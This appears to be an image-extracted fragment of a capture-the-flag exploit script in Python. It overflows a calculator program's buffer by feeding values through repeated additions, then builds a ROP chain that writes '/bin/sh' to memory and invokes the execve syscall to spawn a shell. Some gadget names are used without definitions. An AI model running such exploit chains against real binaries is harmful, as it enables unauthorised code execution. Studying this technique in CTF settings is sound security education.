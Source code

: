 ```
movGadget = 0x44526e

syscall = 0x400488

# These two functions are what we will use to give input via addition
def addSingle(x):
  target.recvuntil(b"=> ")
  target.sendline(b"1")
  target.recvuntil(b"Integer x: ")
  target.sendline(b"100")
  target.recvuntil(b"Integer y: ")
  target.sendline(bytes(str(x - 100), 'utf-8'))


def add(z):
  x = z & 0xffffffff
  y = ((z & 0xffffffff00000000) >> 32) 
  addSingle(x)
  addSingle(y)

# Fill up the space between the start of our input and the return address
for i in range(9):
  # Fill it up with null bytes, to make the ptr passed to free be a null pointer
  # So free doesn't crash
  add(0x0)

# Start writing th0e rop chain
'''
This is our ROP Chain

Write "/bin/sh" tp 0x6c1000

pop rax, 0x6c1000 ; ret
pop rdx, "/bin/sh\x00" ; ret
mov qword ptr [rax], rdx ; ret

# Move the needed values into the registers
pop rax, 0x3b ; ret
pop rdi, 0x6c1000 ; ret
pop rsi, 0x0 ; ret
pop rdx, 0x0 ; ret
'''
add(popRax)
add(0x6c1000)
add(popRdx)
add(0x0068732f6e69622f) # "/bin/sh" in hex
add(movGadget)

add(popRax) # Specify which syscall to make
add(0x3b)

add(popRdi) # Specify pointer to "/bin/sh"
add(0x6c1000)

add(popRsi) # Specify no arguments or environment variables
add(0x0)
add(popRdx)
add(0x0)

add(syscall) # Syscall instruction

target.sendline(b'5') # Save and exit to execute memcpy and trigger buffer overflow

```